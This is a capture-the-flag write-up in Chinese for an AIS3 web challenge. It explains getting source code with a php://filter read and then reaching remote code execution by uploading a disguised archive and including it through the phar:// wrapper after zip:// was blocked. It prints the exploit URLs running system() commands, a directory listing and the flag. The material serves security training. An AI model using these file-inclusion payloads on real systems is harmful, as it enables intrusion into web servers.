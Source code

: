 # 4
**Points : 4**

## Description

Find the flag!

https://quiz.ais3.org:23545/


## Write-up

接續上題，在 [index.php](./index.php) 內可以看到上傳被註解了
![](proc.PNG)
進去後發現只能上傳JPG檔案，因為是在php內檢查，因此無法使用null byte截斷
可以使用上題方法得到原始碼 `php://filter/read=convert.base64-encode/resource=uploaddddddd`
看了[這篇](https://github.com/lucyoa/ctf-wiki/tree/master/web/file-inclusion)後，其中有一個方法，上傳副檔名為jpg的壓縮檔，然後再用 `?p=zip://image.jpg#file`去get shell。

試了之後發現一直沒又東西出現，後來才發現在 [index.php](./index.php) 中有擋掉 `zip`
![](block.png)

看了[這篇](https://lightless.me/archives/include-file-from-zip-or-phar.html)提到`zip`的好朋友 `phar`，都是使用同樣的壓縮手法，差別在於`phar`中是用`/`來分隔而不是`#`

最後使用`phar`，成功Get Shell!!

![](./ls-al.PNG)

FLAG : `AIS3{RCEEEEEEEEE_is_soooooooooo_funnnnnnnnnnnn!?!!?!!!} `



```
https://quiz.ais3.org:23545/?p=phar://images/220.132.34.101/OgnapHt4J.jpg/fucksnoopy&e=system&f=ls -al
```
```
total 48 drwxr-x--- 6 root web34 4096 Jun 26 15:23 . 
drwxr-x--- 4 root web34 4096 Jun 25 02:43 .. 
-rw-r----- 1 root web34 799 Jun 26 15:15 about.php 
drwxr-x--- 2 root web34 4096 Jun 25 02:43 css 
-rw-r----- 1 root web34 2658 Jun 26 15:15 header.php 
-rw-r----- 1 root web34 1079 Jun 26 15:15 home.php 
drwx-wx-wt 50 root web34 4096 Jul 5 09:49 images 
drwxr-x--- 2 root web34 4096 Jun 25 02:43 img 
-rw-r----- 1 root web34 605 Jun 26 15:15 index.php 
drwxr-x--- 2 root web34 4096 Jun 25 02:43 js 
-rw-r----- 1 root web34 56 Jun 26 15:15 the_flag2_which_the_filename_you_can_not_guess_without_getting_the_shellllllll1l -rw-r----- 1 root web34 1995 Jun 26 15:15 uploaddddddd.php 
```
```
https://quiz.ais3.org:23545/?p=phar://images/220.132.34.101/OgnapHt4J.jpg/fucksnoopy&e=system&f=cat the_flag2_which_the_filename_you_can_not_guess_without_getting_the_shellllllll1l 
```

